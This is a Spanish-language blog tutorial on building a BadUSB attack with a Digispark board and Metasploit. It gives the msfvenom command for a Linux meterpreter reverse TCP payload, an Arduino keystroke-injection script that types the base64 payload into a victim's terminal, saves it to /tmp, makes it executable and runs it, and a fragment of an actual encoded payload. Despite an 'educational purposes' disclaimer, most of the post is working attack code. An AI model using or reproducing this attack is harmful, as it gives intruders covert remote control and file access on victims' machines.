 ```yaml
---
layout: post
title: Basic Exploit with Digispark

---
```

# Introducción
En el dia de hoy explicaremos como hacer una técnica de explotación básica ayudandonos de Digispark y metasploit framework.
Este post lo he creado en Español para difundir mi idioma y dar a conocer el mundo de la seguridad informática en Español.
Para comenzar necesitaremos lo siguiente:  
  - Digispark: [amazon](https://www.amazon.es/AZDelivery-Digispark-Kickstarter-Desarrollo-compatible/dp/B076KS2QDS/ref=asc_df_B076KS2QDS/?tag=googshopes-21&linkCode=df0&hvadid=301006161094&hvpos=1o1&hvnetw=g&hvrand=3258160503763513062&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9047059&hvtargid=pla-602427609241&psc=1)
  - Disposición Linux, en mi caso uso ubuntu 18.04
  - Metasploit Framework
  
Cabe mencionar que necesitamos comprar el Digispark, yo lo compré en Amazon, 3 por casi 10 euros y sin duda merece la pena, se puede hacer
tales cantidades de proyectos..

Todo lo que explico es con fines educativos, no me hago responsable del mal uso que le hagais a este post, simplemente me gusta enseñar las habilidades de hacking ético que conozco con el fin de que aprendais como podeis ser atacados y saber defenderos.

# Construyendo el exploit
Para crear el exploit debemos usar la herramienta msfvenom y excribir la siguiente linea de código: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP A USAR) LPORT=(PUERTO A USAR) -f elf > exploit`

Como podemos observar lo que crearemos es un exploit el cual, al ejecutarse en el equipo victima (con distribución linux) nos abrirá una conexión tcp
la cual nos permitirá infectar el equipo y con meterpreter poder acceder a todos sus archivos. 
En la IP cada uno pondra su ip, se puede mirar abriendo la terminal y escribiendo el siguiente comando `ifconfig`, dependiendo si teneis vuestro computador enchufado por cable o lo teneis inalámbrico estará en una interfaz o otra. Esa IP es privada, es decir, solo os servirá para vuestra propia red, no obstante se puede crear este exploit y sacarlo fuera de la red local(LAN), pero eso lo dejaré para otro post. Dicho esto yo usaré mi IP privada y un puerto efímero, el 5000 por ejemplo.

![Foto1](/images/foto1.png)
 
Bien, para terminar de construir este exploit hay que tranformarlo a base64 para poder ejecutarlo directamente en la computadora víctima, asique escribiremos lo siguiente: `base64 exploit > exploit.b64`. Podemos comprobar que ha sido construido satisfactoriamente con el comando `cat exploit.b64`.

![Foto2](/images/foto2.png)

# Creando el script para el Digispark
Bien, ahora pasemos a lo interesante de este post, crearemos un script en Arduino que nos permita crear un archivo b64 en la computadora victima, darle los permisos de ejecución con chmod y ejecutarlo para poder explotar el sistema. Para ello como ya he dicho nos apoyaremos en Arduino, para ponerlo en funcionamiento debereis descargarlo en la pagina oficial [arduino](https://www.arduino.cc/en/Main/Software) . Posteriormente en el arduino nos iremos a `Herramientas->Placa->Gestor de Tarjetas` y instalaremos `Digistump AVR boards`, por último en placa ya seleccionaremos `Digispark(Default - 16.5mhz)` y Fiuh listo ya podemos ponernos manos a la obra y empezar a crear nuestros primeros script para el Digispark. Como todos sabeis Arduino consta de dos funciones setup() en la cual inicializaremos los pines y cualquier otra cosa, se puede dejar en blanco y la función loop() que se repetira constantemente. Empezaremos con las lineas `#include "DigiKeyboard.h"` para poder trabajar con DigiKeyboard, que nos permitirá simular un teclado con el Digispark.
Yo os facilitaré el código que he creado para ejecutar el script en el ordenador víctima.
```C++
#include "DigiKeyboard.h"
#define KEY_DELETE 0x4C
void setup() {
  
// Encendemos el LED para saber que se esta ejecutando
pinMode(1, OUTPUT);
delay(200);
digitalWrite(1, HIGH);
DigiKeyboard.sendKeyStroke(KEY_DELETE);
delay(200);

//Abrimos el buscador y escribimos terminal
DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT); 
DigiKeyboard.delay(1000);
DigiKeyboard.print("terminal");
DigiKeyboard.delay(500);

// Creamos el payload
DigiKeyboard.print("echo");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.print("TU PAYLOAD");
DigiKeyboard.sendKeyStroke(KEY_1,MOD_ALT_RIGHT);
DigiKeyboard.print(" base64 //decode ");
DigiKeyboard.sendKeyStroke(100,2);
DigiKeyboard.print(" ");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);

// Cambiamos los permisos para poder ejecutarlo y lo ejecutamos
DigiKeyboard.print("chmod 755");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(200);
// Ejecutamos
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);

DigiKeyboard.delay(100);
// Paramos el led
digitalWrite(1, LOW);

}

void loop() {
// Para saber que el script se ha ejecutado con exito, mantendremos el led encendiendose y apagandose

digitalWrite(1, HIGH);
delay(200);

digitalWrite(1, LOW);
delay(300);

}
```
Bien, el código es un poco enreversado, pero despues de darle unas vueltas os dareis cuenta de que lo unico que hace es: Encender el led rojo fijo, abrir la terminal, escribir el payload generado y guardarlo en un archivo, cambiarle los permisos y ejecutarlo, para terminar pone el led intermitente. Es simplemente eso.
Puedo comentaros algunos problemillas que he tenido, mi payload tenia una barra invertida entre medias entonces he tenido que dividir el print, y la barra la he puesto con la combinación de teclas que corresponde, puesto que si la escribía en el print daba errores con el teclado y no se escribia una / si no un -. Por eso en mi caso me quedaría asi ese trozo:
```C++
DigiKeyboard.print("f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKhkFGgCABOIieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("huAEAAAC7AQAAAM2A ");

```
Ahi apreciais como separo el payload, escribo la barra `/` y ya continuo. Os menciono esto por si, a la hora de escribir vuestro payload, como evidentemente el valor cambia, os adelanto este problema.
